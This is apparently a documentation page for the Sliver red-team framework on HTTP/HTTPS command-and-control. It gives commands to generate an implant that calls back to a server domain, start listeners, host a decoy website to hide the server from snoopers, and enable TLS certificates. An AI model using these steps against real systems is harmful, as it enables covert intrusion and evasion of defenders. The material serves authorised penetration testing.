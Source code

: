 
⚠️ __This page is a work in progress__

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous.

## Generate the Sliver (implant)
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at example.com, run the following:

```
sliver > generate --http example.com

```

## Start the Listener 

```
sliver > http
```

```
sliver > https
```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website fake-blog --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > https --domain example.com --lets-encrypt

```
